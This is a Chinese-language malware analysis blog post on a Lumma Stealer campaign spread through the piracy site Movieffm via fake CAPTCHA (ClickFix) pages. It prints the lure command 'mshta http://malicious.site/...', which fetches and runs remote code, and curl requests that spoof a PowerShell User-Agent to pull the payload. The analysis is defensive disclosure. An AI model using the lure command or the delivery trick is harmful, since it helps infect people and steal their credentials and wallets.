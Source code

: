 ```yaml
---
layout: post
title: "惡意程式分析報告：透過盜版影音網站 Movieffm 散播的 Lumma Stealer 攻擊活動 "
subtitle: ""
date: 2025-09-03
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [資安, 惡意程式分析, lumma stealer, clickfix]
---
```


本報告旨在分析一起利用盜版影音網站 Movieffm 進行的惡意軟體攻擊活動。攻擊者首先在該網站中植入混淆的 JavaScript 腳本。該腳本會對訪問者進行瀏覽器指紋辨識 (Fingerprinting)，針對符合條件的目標，觸發一個偽裝成 CAPTCHA 的惡意釣魚頁面。

此釣魚頁面會誘導使用者複製並執行一段 `mshta.exe` 指令，以下載並執行一個 HTA (HTML Application) 檔案。後續的攻擊鏈中，攻擊者再次利用 User-Agent 指紋辨識技術，確保只有來自 PowerShell 的請求才能接收到最終的 Lumma Stealer 惡意腳本 。

一旦 Lumma Stealer 成功執行，它將竊取受害者電腦中的瀏覽器紀錄、加密貨幣錢包、系統憑證等敏感資料，並回傳至攻擊者的 C2 (Command and Control) 伺服器。建議使用者應避免訪問高風險網站，並採用具備惡意網站過濾功能的瀏覽器或安全插件，以降低此類攻擊的風險。

## 一、攻擊鏈分析 (Attack Chain Analysis)

### 階段一：初始入侵與前端腳本植入

分析顯示，Movieffm 網站的頁面中被植入了外部 JavaScript 腳本。經分析，此腳本會動態向遠端伺服器請求並載入一段經過高度混淆的程式碼。

##### 前端腳本
![movieffm javascript](/img/in-post/movieLumma/image-3.png)

該腳本的主要功能是動態建構並發出一個請求，用以載入更複雜的遠端 JavaScript 腳本。透過 Burp Suite 進行流量攔截，可以看到伺服器回應的 JavaScript 內容經過高度混淆。

##### 前端回傳的 javascript response
![burp response](/img/in-post/movieLumma/image-4.png)

初步分析這份龐大的混淆腳本後，確認其核心功能之一是進行使用者 Fingerprinting。透過分析使用者的環境以精準投放 payload 或規避網路或防毒軟體的偵查。

對惡意腳本所在的伺服器 IP 進行 `dig` 與 `shodan` 調查，僅能確認其由 `servers.com` 提供服務，並架設於 Nginx 上，顯示攻擊者利用了常見的託管服務來隱藏其真實基礎設施。
![shodan](/img/in-post/movieLumma/image-6.png)

### 階段二：社交工程與惡意指令傳遞

符合特定指紋的訪問者會被重新導向至一個 CAPTCHA 驗證的釣魚頁面，此頁面託管於 Cloudflare 保護的網域後方，且每次訪問的網域名稱皆不相同，增加了追蹤的難度。

![alt text](/img/in-post/movieLumma/image-8.png)

> 此攻擊手法並非首例，這個手法被稱作 ClickFix ，常伴隨 Lumma Stealer 。詳情可參閱[此連結][1]。

此釣魚頁面的網址每次都不同，但透過 WHOIS 查詢，均發現其利用 Cloudflare 進行反向代理，增加了追蹤其來源伺服器的難度。

##### whois 查詢結果
![whois-cloudflare](/img/in-post/movieLumma/image-14.png)

當使用者點擊頁面上的 "I'm not a robot" 核取方塊時，網頁會執行一段 JavaScript，將一串惡意指令複製到使用者的剪貼簿中，並同時跳出一個彈窗，指示使用者按下 Ctrl + R（或 Cmd + R），然後貼上並執行指令。

##### 頁面誘騙使用者點擊「I'm not a robot」按鈕。
![alt text](/img/in-post/movieLumma/image-9.png)

被複製的指令如下
```powershell
mshta http://malicious.site/gbg7/rhfb.c
```

> mshta.exe 是 Windows 內建的合法程式，常用於執行 HTA 檔案，但也因此成為攻擊者執行任意程式碼的常見「離地攻擊」(Living-off-the-Land) 手段。關於更多請參照[連結][2]。


### 階段三：Payload 下載與執行

為了分析 `mshta` 將要執行的內容，我們使用 `curl` 工具直接請求該 HTA 檔案。
```bash
curl -i "http://malicious.site/gbg7/rhfb.c"
```
![alt text](/img/in-post/movieLumma/image-11.png)

伺服器回傳的 HTA 檔案內容非常簡短，其核心是執行一段 PowerShell 指令，以下載並執行另一個遠端腳本。

當我們嘗試直接用 curl 訪問 PowerShell 將要下載的 URL時，卻發現請求被重新導向到無害的 Steam 網站，暗示伺服器端存在額外的檢查機制。

##### curl 返回結果為 redirect
![curl fingerprinting](/img/in-post/movieLumma/image-12.png)

我們推測伺服器會驗證請求的 User-Agent。因此，我們在 curl 指令中模擬 PowerShell 的 User-Agent 再次發出請求：
```bash
curl -s -X GET "http://malicious.site/gbg7/" -H "User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1320"
```

這次，伺服器成功回傳了真正的惡意 PowerShell 腳本，只有來自受害者機器上 PowerShell 程式的流量才會收到惡意 payload，而來自普通瀏覽器或分析工具的請求則會被另外重新導向。

##### 模擬 powershell 結果為惡意腳本
![powershell user agent response](/img/in-post/movieLumma/image-13.png)

### 階段四：最終目標 - Lumma Stealer 資訊竊取軟體

我們將取得的 PowerShell 腳本上傳至 `any.run` 沙盒環境進行動態分析。

分析報告確認，該腳本的最終 payload 為 Lumma Stealer，這是一款知名的資訊竊取惡意軟體。一旦執行，它會掃描受感染的電腦，竊取儲存在瀏覽器中的敏感資料（如密碼、Cookies、信用卡資訊）、加密貨幣錢包、系統資訊等，並將所有資料打包後傳送到攻擊者的 C2 (Command & Control) 伺服器。

沙盒分析連結: [https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03][3]

![any.run result](/img/in-post/movieLumma/image-15.png)


## 緩解與建議
為防範此類攻擊，建議使用者採取以下措施：

避免使用盜版或不受信任的網站服務：正版服務通常具備更完善的安全維護，較不易成為惡意程式的溫床。

使用具備防護功能的瀏覽器與擴充套件：

- 瀏覽器如 Microsoft Edge 內建的 SmartScreen 或 Google Chrome 的安全瀏覽 (Safe Browsing) 功能，能有效阻擋已知的惡意網站。
- 安裝如 uBlock Origin 等廣告攔截器，能有效阻止惡意的彈出視窗和腳本執行。

保持高度警覺，切勿執行來路不明的指令：任何引導你在終端機、PowerShell 或執行對話框中輸入的指令，都可能對你的電腦造成無法挽回的損害。務必對這類要求保持懷疑。

## 責任通報與生態系防禦
本次分析中相關連結已向相關單位通報。 

servers.com
![alt text](/img/in-post/movieLumma/image-16.png)

sollutium-nl
![alt text](/img/in-post/movieLumma/image-18.png)

movieffm.net
![alt text](/img/in-post/movieLumma/image-19.png)

## 附錄：樣本資訊
本次分析過程中發現的相關腳本與樣本已整理至以下 GitHub repo：
[https://github.com/PPKan/malware_samples/tree/main/movieffm_samples][4]


[1]:https://www.trendmicro.com/zh_tw/research/25/g/lumma-stealer-returns.html
[2]:https://www.cnblogs.com/backlion/p/10491616.html
[3]:https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03
[4]:https://github.com/PPKan/malware_samples/tree/main/movieffm_samples
